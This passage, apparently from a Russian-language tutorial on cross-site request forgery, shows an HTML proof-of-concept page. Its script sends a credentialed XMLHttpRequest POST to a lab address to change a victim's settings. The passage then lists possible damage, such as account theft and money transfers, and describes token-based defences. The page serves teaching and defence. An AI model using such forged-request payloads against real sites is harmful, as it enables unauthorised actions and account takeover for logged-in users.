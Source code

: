 

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XHR_CSRF</title>
</head>
<body>

	<script	type="text/javascript">
var xhr=new XMLHttpRequest ();
xhr.open("POST", "http://192.168.99.100:1337/change_settings_2", true);
xhr.setRequestHeader("Accept", "text/html, application/xhtml+xml, application/xml;q=0.9, */*;q=0.8");
xhr.setRequestHeader("Accept-Language", "ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3");
 
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials=true;
var params='settings=false';
xhr.send(params);
	</script>
</body>
</html>
```

С использованием `XMLHttpRequest` возможно совершить действие асинхронно - без перехода пользователя на атакуемую страницу. 

## Ущерб
Злоумышленник имеет возможность совершать действия от любого пользователя на уязвимом сайте.

Такими действиями могут быть:
1) Смена пароля с последующей кражей аккаунта
2) Подписка на какую-либо страницу или сервис
3) Отправить сообщение или письмо.
4) Перевод денег.
5) Шантажирование пользователя методами социальной инженирии.
6) И другие действия, которые позволяет выполнять конкретное веб-приложение.

## Защита
### Основные меры

1) GET-запросы в веб-приложении вообще не должны выполнять каких-либо действий
2) CSRF токен
* генерируется рандомный токен, который привязывается к сессии
* сервер подставляет токен в HTML-форму и сверяет с сохраненным при приеме запроса
* атакующий не знает токена, следовательно не сможет заставить пользователя валидный запрос
* токен хранится в базе данных (statefull метод)
* для формирования токена необходимо использовать идентификатор пользователя и timestamp. Иначе, в первом случае, cookie одного пользователя может быть использован другим пользователем. Во втором случае, для ограничения времени жизни токена для защиты от использования токена в случае его копроментации.
